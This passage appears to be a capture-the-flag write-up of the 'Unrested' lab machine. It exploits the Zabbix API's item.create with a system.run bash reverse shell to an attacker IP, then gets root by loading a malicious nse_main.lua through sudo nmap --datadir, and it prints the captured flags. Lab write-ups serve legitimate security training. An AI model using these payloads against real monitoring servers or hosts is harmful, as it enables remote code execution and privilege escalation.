We can take a look into the code used by the script to add a new item that executes a bash command:

```
    def itemCreate(self):
        self.items = []
        payload = {
            'jsonrpc': '2.0',
            'method': 'item.create',
            'params': {
                'name': self.randomString(),
                'key_': f'system.run[{ self.cmd }]',
                'delay': self.delay,
                'hostid': self.host['id'],
                'type': 0,
                'value_type': 1,
                'interfaceid': self.interface['interfaceid']
            },
            'auth': self.token,
            'id': 1
        }
        response = self.post(payload)
        try:
            self.items = response.json()['result']['itemids']
        except:
            print(response.text)
            exit('[-] Something went wrong in itemCreate')
```

And we know that only the first 2 tempates are linked to the machine on the backend...

```
> show_hosts

╭────────┬───────────┬────────────┬───────────┬───────────┬────────────┬────────┬───────╮
│        │           │ Host       │           │           │ Maintenanc │        │       │
│ HostID │ Name      │ groups     │ Templates │ Agent     │ e          │ Status │ Proxy │
├────────┼───────────┼────────────┼───────────┼───────────┼────────────┼────────┼───────┤
│ 10084  │ Zabbix    │ Zabbix     │ Linux by  │ Available │ Off        │ On     │       │
│        │ server    │ servers    │ Zabbix    │           │            │        │       │
│        │           │            │ agent     │           │            │        │       │
│        │           │            │ Zabbix    │           │            │        │       │
│        │           │            │ server    │           │            │        │       │
│        │           │            │ health    │           │            │        │       │
╰────────┴───────────┴────────────┴───────────┴───────────┴────────────┴────────┴───────╯
>
> show_templates

╭───────┬──────────────────────────────────────────┬───────────────┬─────────┬──────────╮
│ ID    │ Name                                     │ Hosts         │ Parents │ Children │
├───────┼──────────────────────────────────────────┼───────────────┼─────────┼──────────┤
│ 10001 │ Linux by Zabbix agent                    │ Zabbix server │         │          │
├───────┼──────────────────────────────────────────┼───────────────┼─────────┼──────────┤
│ 10047 │ Zabbix server health                     │ Zabbix server │         │         
```

Now we should be able to add a new item to the example first template(10001) and invoke a RCE? And after asking chatgpt since the additem is not suported by the cli tool then we can use this to add a new item to the first template:

```
POST /zabbix/api_jsonrpc.php HTTP/1.1
Host: 10.10.11.50
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: application/json
Content-Length: 356

{
  "jsonrpc": "2.0",
  "method": "item.create",
  "params": {
    "name": "Revshell",
    "key_": "system.run[bash -c \"/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1\"]",
    "hostid": "10084",
    "type": 0,
    "value_type": 3,
    "interfaceid": "1",
    "delay": "30s"
  },
  "auth": "bd31dfe91d42537b8baf4b8dadc5f078",
  "id": 1
}


```

This should invoke the rce by itself:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Unrested]
└─# nc -lvnp 4444          
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.50] 36876
bash: cannot set terminal process group (11832): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@unrested:/$ whoami
whoami
zabbix
zabbix@unrested:/$ hostname
hostname
unrested
zabbix@unrested:/$ 

```

And magically we can grab our first flag!

```
zabbix@unrested:/home/matthew$ cat user.txt
cat user.txt
c9e9a8187b8aa0c1d9544ad13d495bf6
zabbix@unrested:/home/matthew$ 


```

# Root.txt

Now I see only Matthew and root and so far we are Zabbix, so i guess I need to find a way to escalate as matthew first and then take it further...

Uploading Linpeas we can see traces of:

```
//Zabbix agent conf
zabbix       981  0.0  0.1  21540  5784 ?        S    Dec05   0:00 /usr/sbin/zabbix_agentd -c /etc/zabbix/zabbix_agentd.conf


//Zabbix server conf
zabbix      1075  0.0  0.4 147660 18512 ?        S    Dec05   0:06 /usr/sbin/zabbix_server -c /etc/zabbix/zabbix_server.conf


//Sudo permissions
User zabbix may run the following commands on unrested:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap *

```

Seems like that sudo is our way in... https://gtfobins.github.io/gtfobins/nmap/#sudo

```
zabbix@unrested:/tmp$ TF=$(mktemp)
TF=$(mktemp)
zabbix@unrested:/tmp$ echo 'os.execute("/bin/sh")' > $TF
echo 'os.execute("/bin/sh")' > $TF
zabbix@unrested:/tmp$ sudo nmap --script=$TF
sudo nmap --script=$TF
Script mode is disabled for security reasons.
zabbix@unrested:/tmp$ 

zabbix@unrested:/tmp$ 

zabbix@unrested:/tmp$ sudo nmap --interactive
sudo nmap --interactive
Interactive mode is disabled for security reasons.
zabbix@unrested:/tmp$ 

```

Umh seems like we need to read a file instead? Edit: all the modes are disabled so let's see what is it all about...

```
zabbix@unrested:/tmp$ which nmap
which nmap
/usr/bin/nmap
zabbix@unrested:/tmp$ 

```

As you see from the binary wrapper all the main functions from GTFOBins are disabled:

```
cat /usr/bin/nmap
#!/bin/bash

#################################
## Restrictive nmap for Zabbix ##
#################################

# List of restricted options and corresponding error messages
declare -A RESTRICTED_OPTIONS=(
    ["--interactive"]="Interactive mode is disabled for security reasons."
    ["--script"]="Script mode is disabled for security reasons."
    ["-oG"]="Scan outputs in Greppable format are disabled for security reasons."
    ["-iL"]="File input mode is disabled for security reasons."
)

# Check if any restricted options are used
for option in "${!RESTRICTED_OPTIONS[@]}"; do
    if [[ "$*" == *"$option"* ]]; then
        echo "${RESTRICTED_OPTIONS[$option]}"
        exit 1
    fi
done

# Execute the original nmap binary with the provided arguments
exec /usr/bin/nmap.original "$@"

```

Here I had to check for tips and apparently the way in is this one... https://nmap.org/book/data-files-replacing-data-files.html

And by saving a custom lua script that copy the flag to /tmp folder we can bypass the exclusion and get us the flag.

```
zabbix@unrested:/tmp$ echo 'os.execute("cp /root/root.txt /tmp/root.txt;chmod 777 /tmp/root.txt")' > /tmp/nse_main.lua
<.txt;chmod 777 /tmp/root.txt")' > /tmp/nse_main.lua
zabbix@unrested:/tmp$ sudo /usr/bin/nmap --datadir=/tmp -sC localhost
sudo /usr/bin/nmap --datadir=/tmp -sC localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-06 14:51 UTC
nmap.original: nse_main.cc:619: int run_main(lua_State*): Assertion `lua_isfunction(L, -1)' failed.
Aborted
zabbix@unrested:/tmp$ ls
ls
linpeas.sh
nse_main.lua
root.txt
systemd-private-23015d8c8f7942cda2a0f99315c65e75-apache2.service-Qn7iSV
systemd-private-23015d8c8f7942cda2a0f99315c65e75-ModemManager.service-3XJBhp
systemd-private-23015d8c8f7942cda2a0f99315c65e75-systemd-logind.service-aBvvzK
systemd-private-23015d8c8f7942cda2a0f99315c65e75-systemd-resolved.service-AmLz1e
systemd-private-23015d8c8f7942cda2a0f99315c65e75-systemd-timesyncd.service-puMUtn
systemd-private-23015d8c8f7942cda2a0f99315c65e75-upower.service-B6rVah
tmp.rH5t0vrQud
tmp.X2NdmWVCV9
tmux-114
vmware-root_513-4256479521
zabbix@unrested:/tmp$ cat root.txt
cat root.txt
70810e8b17957f1133acdad8fad6dcd7
zabbix@unrested:/tmp$ 


```